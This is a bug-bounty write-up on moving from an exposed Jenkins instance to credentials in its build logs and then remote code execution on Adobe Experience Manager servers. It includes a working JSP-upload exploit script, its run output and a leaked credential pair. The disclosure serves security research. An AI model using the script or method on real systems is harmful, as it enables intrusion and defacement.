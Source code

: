```yaml
---
layout: post
title: "Exposed Jenkins to RCE on 8 Adobe Experience Managers"
author: Corben Leo
---
```


### <font>&#128075;&#127996; introduction:</font>
This is a short write-up of how I progressed from discovering a Jenkins instance to getting shells on 8 Adobe Experience Manager servers and gaining edit access to a company's main sites. Along with this blog-post, I'm releasing a tool called <a target='_blank' rel='noopener noreferrer' class='link' href='https://github.com/lc/jenkinz'>jenkinz</a>.

<b><i>Note:</i></b> as this was a finding in a private program, I'm not allowed to disclose any details that could be used to identify them. For this reason, I've changed and redacted details.

### <font>&#128373;&#65039;recon</font>
Back in June, I decided to change my workflow and automate more of my recon. After doing so, I decided to perform a test scan against a private program I was in. After the scan finished, I started looking through the HTTP titles of every subdomain it had discovered.

One in particular caught my eye: `Dashboard [Jenkins] - https://wcm-pipeline03.dev.test.example.com`

I visited the subdomain and found that it was indeed running Jenkins. In the past I have had success getting Code Execution on Jenkins via Orange Tsai's <a target='_blank' rel='noopener noreferrer' class='link' href='https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html'>research</a>, so I tried that but unfortunately it was patched.

However, the `/signup` endpoint was enabled, so I registered for an account and logged in, and started looking at the builds: `https://wcm-pipeline03.dev.test.example.com/view/all/builds`.

I'm a huge sucker for Continuous Integration applications and I've done some <a target='_blank' rel='noopener noreferrer' class='link' href='https://edoverflow.com/2019/ci-knew-there-would-be-bugs-here/'>research</a> on finding secrets in build logs on TravisCI. Since this Jenkins server was running the latest version and there weren't any public vulnerabilities in it, I decided to go down a different route: finding secrets in build logs. 

Just like with Travis-CI, it would be an incredibly tedious task to manually retrieve every build log and environment variable for every job, so I automated all of it. 

### <font>&#127881; jenkinz -&gt; secrets -&gt; rce</font>
<a target='_blank' rel='noopener noreferrer' class='link' href='https://github.com/lc/jenkinz'>jenkinz</a> is the the tool that came out of this; it retrieves every build (log and environment variables) for every job ever created and run on a given Jenkins instance and saves them all to an output directory.

After running the tool, I had a large amount of data through. `ripgrep` is great for this - after searching for a few different strings, I found credentials in one of the logs:

```
found credentials for id: aem-ingress -> username: aemingress Password: Goodbye2017!
```

By reading through the entire log file, it was evident that this job was a script that logged into several Adobe Experience Manager servers, performed some tasks, then emailed a developer. I had discovered and tested a few of their AEM instances in the past, so I went back through my historical recon data, searched on Github, and found 8 of their AEMs. 


The credentials worked and I was an admin on all of them.


Next, I took a <a target='_blank' rel='noopener noreferrer' class='link' href='https://github.com/0ang3el/aem-hacker/blob/master/aem-rce-sling-script.sh'>bash script</a> by <a target='_blank' rel='noopener noreferrer' class='link' href='https://twitter.com/0ang3el'>0ang3el</a> and modified it to only run the `uname` command:


```bash
#!/usr/bin/bash

if [ "$#" -ne 3 ]; then
	echo "Usage: $0 URL USERNAME PASSWORD"
	exit 2
fi

url="$1"
username="$2"
password="$3"

payload=$(cat <<-EOT
<%@ page import="java.io.*" %>
<% 
	Process proc = Runtime.getRuntime().exec('uname -a');
	
	BufferedReader stdInput = new BufferedReader(new InputStreamReader(proc.getInputStream()));
	StringBuilder sb = new StringBuilder();
	String s = null;
	while ((s = stdInput.readLine()) != null) {
		sb.append(s + "\\\\n");
	}
	
	String output = sb.toString();
%>
<%=output %>
EOT
)

echo "$payload" > /tmp/html.jsp

#Create rcetype
curl -k -s -X POST -H "Referer: $url" -u "$username:$password" "$url/apps/rcetype" -Fhtml.jsp=@/tmp/html.jsp > /dev/null

# Create rcenode
curl -k -s -X POST -H "Referer: $url" -u "$username:$password" "$url/rcenode" -Fsling:resourceType=rcetype > /dev/null

echo "Now navigate to $url/rcenode.html"
```


Running it with the credentials I'd found:


```bash
$ bash aem-rce-sling.script.sh http://aem-instance.example.com "aemingress" "Goodbye2017!"

Now navigate to https://aem-instance.example.com/rcenode.html
```

After navigating to the URL, the `uname -a` command executed.


Not only did I have RCE though, I had full privileges and could've deleted or edited all of their main sites, including their subsidiaries in AEM:

`http://aem-instance.example.com/editor.html/content/example/example_com/us/en/home/index.html`


## outro:

I had a super fun time with this vulnerability and I enjoyed tooling it. Hopefully in your bug-bounty, pentesting, and/or red-teaming journey, the <a target='_blank' rel='noopener noreferrer' class='link' href='https://github.com/lc/jenkinz'>tool</a> is useful!

<br>Happy hacking,<br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/lc"  target="_blank" rel="noopener noreferrer">https://github.com/lc</a>
